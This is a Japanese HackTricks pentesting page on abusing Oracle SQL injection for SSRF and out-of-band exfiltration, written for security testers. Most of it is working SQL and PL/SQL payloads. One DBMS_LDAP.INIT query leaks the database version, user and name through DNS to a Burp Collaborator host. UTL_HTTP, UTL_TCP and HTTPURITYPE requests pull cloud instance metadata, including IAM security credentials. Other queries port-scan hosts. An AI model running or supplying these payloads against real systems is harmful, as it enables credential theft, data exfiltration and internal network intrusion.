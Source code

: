 # Oracleインジェクション

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>

## SSRF

Oracleを使用して、Out of BandのHTTPおよびDNSリクエストを行うことはよく文書化されていますが、インジェクションにおいてSQLデータを外部に漏洩させる手段としても使用できます。これらのテクニック/関数を常に変更して、他のSSRF/XSPAを実行することができます。

Oracleのインストールは非常に面倒ですが、コマンドを試すために素早くインスタンスをセットアップしたい場合は特にそうです。私の友人であり、[Appsecco](https://appsecco.com)の同僚である[Abhisek Datta](https://github.com/abhisek)は、[https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)を紹介してくれました。これにより、t2.large AWS UbuntuマシンとDocker上にインスタンスをセットアップすることができました。

このブログポストの過程で、Oracleをネイティブインストールとしてネットワークに完全アクセスできるようにするために、dockerコマンドを`--network="host"`フラグとともに実行しました。
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URLまたはホスト名/ポート番号の指定をサポートするOracleパッケージ <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

ホストとポートの指定をサポートするパッケージと関数を見つけるために、[Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html)でGoogle検索を実行しました。具体的には、以下のキーワードで検索しました。
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
以下は検索結果です（すべてがアウトバウンドネットワークを実行するために使用できるわけではありません）

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

この簡単な検索では、`DBMS_LDAP`（ホスト名とポート番号を渡すことができる）のようなパッケージはスキップされます。[ドキュメントページ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)では、単に[別の場所](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)に案内されます。したがって、見落とした可能性のある他のOracleパッケージが存在するかもしれません。

いずれにせよ、上記で発見しリストアップしたいくつかのパッケージを見てみましょう。

**DBMS\_LDAP.INIT**

`DBMS_LDAP`パッケージは、LDAPサーバーからデータにアクセスするためのものです。`init()`関数は、LDAPサーバーとのセッションを初期化し、ホスト名とポート番号を引数として受け取ります。

この関数は、以下のようにDNS経由でのデータの外部への流出を示すために以前に文書化されています。
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
ただし、関数はホスト名とポート番号を引数として受け取るため、これをポートスキャナのように使用することもできます。

以下にいくつかの例を示します。
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - 初期化に失敗しました。`は、セッション値がポートが開いていることを指しているにもかかわらず、ポートが閉じていることを示しています。

**UTL\_SMTP**

`UTL_SMTP`パッケージは、SMTP経由で電子メールを送信するために設計されています。[Oracleのドキュメントサイトに提供されている例では、このパッケージを使用して電子メールを送信する方法が示されています](https://docs.oracle.com/database/121/ARPLS/u\_smtp.htm#ARPLS71478)。しかし、私たちにとって興味深いのは、ホストとポートの指定が可能な点です。

以下に、タイムアウトが2秒の`UTL_SMTP.OPEN_CONNECTION`関数の簡単な例を示します。
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: 転送タイムアウト` はポートが開いていることを示しますが、SMTP接続が確立されていません。一方、`ORA-29278: SMTP一時エラー: 421 サービスが利用できません` はポートが閉じていることを示します。

**UTL\_TCP**

`UTL_TCP` パッケージとその手続きおよび関数は、[TCP/IPベースのサービスとの通信](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190)を可能にします。特定のサービスに対してプログラムされた場合、このパッケージはネットワークへの侵入経路となるか、TCP/IP接続のすべての側面を制御することができるため、完全なサーバーサイドリクエストを実行することができます。

Oracleのドキュメントサイトの例では、このパッケージを使用してウェブページを取得するための生のTCP接続を作成する方法が示されています。さらに簡略化して、メタデータインスタンスや任意のTCP/IPサービスへのリクエストを行うために使用することができます。
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
興味深いことに、生のTCPリクエストを作成できるため、このパッケージはすべてのクラウドプロバイダのインスタンスメタデータサービスをクエリするためにも使用できます。メソッドタイプと追加のヘッダーはすべてTCPリクエスト内で渡すことができます。

**UTL\_HTTPとWebリクエスト**

おそらく、あらゆるOut of Band Oracle SQL Injectionチュートリアルで最も一般的で広く文書化されたテクニックは、[`UTL_HTTP`パッケージ](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070)です。このパッケージはドキュメントで次のように定義されています - `UTL_HTTPパッケージは、SQLおよびPL/SQLからのハイパーテキスト転送プロトコル（HTTP）呼び出しを行います。これを使用して、HTTP経由でインターネット上のデータにアクセスできます。`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
以下のようなクエリを使用して、いくつかの基本的なポートスキャンも実行することができます。

```sql
SELECT CASE WHEN (UTL_TCP.CONNECT('192.168.0.1', 22) IS NULL) THEN 'Port 22 is closed' ELSE 'Port 22 is open' END FROM DUAL;
SELECT CASE WHEN (UTL_TCP.CONNECT('192.168.0.1', 80) IS NULL) THEN 'Port 80 is closed' ELSE 'Port 80 is open' END FROM DUAL;
SELECT CASE WHEN (UTL_TCP.CONNECT('192.168.0.1', 443) IS NULL) THEN 'Port 443 is closed' ELSE 'Port 443 is open' END FROM DUAL;
```

これにより、指定したIPアドレスとポート番号に対して接続を試み、接続が成功したかどうかを判断することができます。もし接続が成功した場合、ポートは開いていると判断されます。接続が失敗した場合、ポートは閉じていると判断されます。
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener`または`TNS:operation timed out`は、TCPポートが閉じていることを示すサインです。一方、`ORA-29263: HTTP protocol error`またはデータは、ポートが開いていることを示しています。

過去に使用した別のパッケージは、[`HTTPURITYPE`オラクルの抽象型の`GETCLOB()`メソッド](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705)です。このメソッドを使用すると、URLとのやり取りが可能であり、HTTPプロトコルのサポートも提供されます。`GETCLOB()`メソッドは、URLからのGETレスポンスを[CLOBデータ型](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)として取得するために使用されます。[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/22.png)](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業で働いていますか？** **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングのトリックを共有するには、**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **および** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出**してください。

</details>
